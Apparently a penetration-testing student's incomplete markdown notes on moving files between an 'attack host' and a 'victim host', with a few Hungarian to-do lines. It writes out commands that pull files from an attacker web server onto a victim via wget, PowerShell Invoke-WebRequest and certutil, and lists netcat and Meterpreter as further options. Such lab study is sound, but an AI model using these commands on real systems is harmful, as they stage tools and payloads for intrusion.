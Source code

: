 # TODO
* htba file transfers modult nezzuk meg
* ejpt repobol nezzuk meg a methodokat
# Basic file transfer methods
## Base64 encode - decode - copy/paste between machines
* Base64 encoding data on source machine
* Copy-pasting base64 string from source machine to dest machine
* Base64 decoding on destination machine (+ redirect output to file)
## HTTP file transfer
### From Attack host to Victim host (Linux)
* python web server + wget
<pre>
<b># attack machine</b>
$ python -m http.server 8000
<b># victim machine</b>
$ wget http://10.10.10.2:8000/file.txt
</pre>
### From Attack host to Victim host (Windows)
* python web server + powershell iwr
<pre>
<b># attack machine</b>
$ python -m http.server 8000
<b># victim machine</b>
PS> Invoke-WebRequest -Uri http://10.10.10.2:8000/file.txt -OutFile .\file.txt
</pre>
* python web server + certutil
<pre>
<b># attack machine</b>
$ python -m http.server 8000
<b># victim machine</b>
C:\> certutil -urlcache -split -f http://10.10.10.2:8000/file.txt
</pre>
### From Victim host (Linux) to Attack host
* python web server + wget
### From Victim host (Windows) to Attack host
????
### Alternatives for tools
* alternatives for python: python3, python2.7, php, perl, ruby, ...
* alternatives for wget: curl, powershell iwr, certutil
## SMB file transfer
## SCP file transfer
## Meterpreter file transfer
## Other solutions
* RDP mounted drive
* HTTP file upload server hosted on attack machine + power shell client script
* Netcat pipes + redirect
* FTP
